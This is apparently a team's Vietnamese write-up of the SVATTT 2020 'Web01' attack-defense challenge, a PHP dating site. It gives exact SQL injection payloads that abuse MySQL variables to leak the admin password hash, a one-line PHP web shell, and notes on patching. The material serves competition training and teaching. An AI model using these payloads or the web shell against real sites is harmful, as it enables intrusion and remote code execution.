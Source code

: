 # Web01
## Source
https://drive.google.com/file/d/1tDI-W9BOB_K5ssLrbaJDlgqyX6l1Jzth/view
## Mô tả sơ lược
Trang web cho phép các bạn tạo nick và đăng nhập. Dựa trên sở thích của bạn trang web sẽ suggest để các bạn có thể match với những người khác. Rất thích hợp với các bạn FA  
![FA](/img/alone.jpg)
## Analysis
Source được public và gồm các file `dbconnect.php`, `index.php`, `login.php`, `logout.php`, `match.php`, `profile.php` và `register.php`  
Các file `dbconnect.php`, `index.php` và `logout.php` khá đơn giản và không có gì đặc biệt. Ta đi sâu vào các file còn lại
### File register.php
Có 2 đoạn code php chính là đoạn kiểm tra một user có tồn tại hay không
![reg_1](/img/reg1.jpg)
và đoạn đăng ký một user mới
![reg_2](/img/reg2.jpg)
Ta thấy đoạn kiếm tra một user có tồn tại hay không bị lỗi SQL injection khi truyền thẳng `$_GET["user"]` vào câu query. Tuy nhiên ta bị giới hạn 25 kí tự ở đây, đồng thời server cũng không trả về kết quả của câu `SELECT` mà chỉ trả về user có exists hay không.  
Ở đoạn đăng ký user mới, mặc dù đã dùng hàm [mysqli_real_escape_string](https://www.php.net/manual/en/mysqli.real-escape-string.php) nhưng nếu để ý ta thấy 2 biến `$yob` và `$id_card` khi insert không nằm trong 2 dấu `'`, và khi đó ta vẫn có thể SQL injection vào 2 biến này. Tuy nhiên đời không như là mơ, 2 biến này bị giới hạn độ dài là 4 ký tự :sob:
### File login.php
Đoạn code check login khá đơn giản
![login](/img/login.jpg)
Từ đây ta có thể biết được cột chứa password tên là `fa_dating_password`.
### File profile.php
Trang này sẽ hiện thị thông tin cá nhân lên, bao gồm `name`, `yob` và `interest` và `id_card`. Đồng thời cho phép cập nhật description - sẽ được hiển thị ở trang `match.php`.
### File match.php
Trang sẽ hiển thị ngẫu nhiên một người có chung sở thích với mình. Ngoài ra nếu là `admin` thì sẽ được quyền lưu lại tên và tuổi của một user vào một file bất kỳ.
![match](/img/match.jpg)
## Exploit
Ta thấy nếu ta đăng nhập được vào nick `admin` thì có thể tạo một file có tên bất kỳ với dữ liệu là `name` của một user → tạo một nick có `name` là 
``` PHP
<?php system($_GET["cmd"]);?>
```
và lưu dưới tên `shell.php` là ta sẽ có một web shell trên server.  
Vậy đầu tiên ta cần đăng nhập vào nick `admin` trước.  
Team mình tiếp cần lỗi SQLi ở phần kiểm tra user tồn tại. Với giới hạn 25 ký tự và tên cột là `fa_dating_password` (18 ký tự) nên team mình đã không dùng các cách SQLi thông thường như blind, error-based, ..., thay vào đó tìm cách extract password mà không dùng đến tên cột. Và cách mà team mình sử dụng là kết hợp [local variable của mysql](https://dev.mysql.com/doc/refman/8.0/en/declare-local-variable.html) và lỗi SQLi ở phần đăng ký user mới.  
Ý tưởng là biến câu query check exists thành `SELECT * FROM fa_dating_users WHERE fa_dating_username = 'admin' INTO @var1,@var2,@var3,@var4,@var5,@var6,@var7`, và sau đó biến câu query tạo mới user thành `INSERT INTO fa_dating_users VALUES ('username','password','pin',yob,'interest',@var2,'name')`. Khi đó cột `fa_dating_id_card` sẽ lưu giá trị `@var2` tương ứng với password của `admin`, và ta có thể đọc được ở trang `profile.php`.  
Payload ban đầu của team mình `$_GET["user"]="admin'into@,@x,@,@,@,@,@#"` (vừa đủ 25 ký tự :joy:), `$_POST["id_card"]="@x__"` (với `_` là khoảng cách)    
Tuy nhiên đời ko như là mơ :sob:, team mình không biết cấu trúc database như nào, nhưng sau khi tạo nick xong thì ở `profile.php` không hiện ra gì hết. Mình đoán do cột `fa_dating_id_card` đã được setup sao cho không insert quá 4 ký tự được. Và đây là lúc biến `$yob` có tác dụng. Team mình sẽ dùng biến `$yob` để đẩy `@x` sang cột `fa_dating_name`.  
Và payload cuối cùng:  
`$_GET["user"]="admin'into@,@x,@,@,@,@,@#"`  
`$_POST["yob"]="0, 0"`  
`$_POST["id_card"]="@x)#"`  
Mọi thứ đều vừa khít :heart_eyes:   
Lúc này thì đăng nhập vào và có được md5 của password, tìm được password của `admin` là `handsomeboy`.  
Việc có shell khá đơn giản như mình đã trình bày ở trên, RCE và có flag thôi.
## Tản mạn
Ban đầu nhóm mình tốn khá nhiều thời gian cho việc bypass cái check length `<= 25` do không nhìn thấy chỗ SQLi ở phần tạo user. Gần 4 tiếng đầu diễn ra trong tâm trạng căng thẳng khi mà bên pwn và crypto đều liên tục có điểm về, trong khi web thì dậm chân tại chỗ :cold_sweat:.  
Sau đó thì ngồi đọc kĩ code lại thì tìm ra bug ở `$yob` và `$id_card` thì tâm trạng mới đỡ hơn, và lại hoảng khi payload ban đầu không hoạt động  như mong muốn, may mà lúc đó vẫn giữ được bình tĩnh để suy nghĩ ra việc cột `fa_dating_id_card` bị giới hạn độ dài.  
 Đỉnh điểm là khi team mình đã có shell nhưng không có flag do mình quá ngu linux :sob:. Tốn gần 20p để tìm cách đặt reverse shell và nhận ra máy không mở port ra ngoài, sau đó lúc team `Nupakachi` submit được flag thì con web shell của mình cũng bị mất luôn, lúc đó mới nhận ra máy chủ reset khi có đội submit flag. May mắn là `Nupakachi` không kịp patch và mình đã up shell lên lại. Cũng nói thêm là lúc mình đang tìm cách đặt reverse shell thì có thấy shell của một đội khác nên đã nói @Lâm việc sẵn cái patch, mình thì chưa kịp remove cái shell đó thì đã bị sút =)), nhưng cũng nhờ thế mà lúc chiếm lại được Web01 thì đã có sẵn patch trong người rồi. Mặc dù patch vẫn thọt do password của `admin` vẫn là `handsomeboy` nên có `mysqli_real_escape_string` biến `$_GET["user"]` thì vẫn bị up shell, lần patch thứ 2 thì team mình dùng thêm `htmlspecialchars` để escape cái `name`, từ đó không up web shell được nữa, lúc này thì mới an toàn.  
 ## Kết
 Cảm ơn BTC đã tạo một sân chơi bổ ích cho các bạn sinh viên, cảm ơn thầy Duy và và khoa Công nghệ thông tin đã tạo điều kiện cho bọn em được thi SVATTT 2020, cảm ơn các anh chị trong CyberJutsu đã giúp bọn em trong việc luyện tập các challenge